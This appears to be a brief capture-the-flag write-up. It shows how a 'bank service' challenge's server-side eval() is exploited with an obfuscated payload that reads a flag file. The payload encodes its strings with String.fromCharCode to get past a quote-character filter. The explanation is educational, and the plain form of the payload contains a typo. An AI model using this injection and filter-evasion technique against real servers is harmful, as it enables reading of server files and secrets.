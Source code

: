 # Writeup for bank service

## PoC code
```javascript
require(String.fromCharCode(97+5)+String.fromCharCode(97+18)).readFileSync(String.fromCharCode(47) +  String.fromCharCode(118) +  String.fromCharCode(97) +  String.fromCharCode(114) +  String.fromCharCode(47) +  String.fromCharCode(99) +  String.fromCharCode(116) +  String.fromCharCode(102) +  String.fromCharCode(47) +  String.fromCharCode(102) +  String.fromCharCode(108) +  String.fromCharCode(97) +  String.fromCharCode(103)).toString()
```

## Description
There is a `eval()` function when message is processed by server. So we can
execute any javascript for at server side, but there is a small filter.

It filters some chars including `'`, and `"`. Because of that, we cannot use
string.

However, we can bypass using `String.fromCharCode()` function. This function
produce a single character from ascii code, so with chaining that code, we
can produce any string freely.

To read a key file, it is enough to execute this:
```
require('fs').readfFileSync(keypath).toString()
```

With proper encoding, we can get final PoC code described as above.
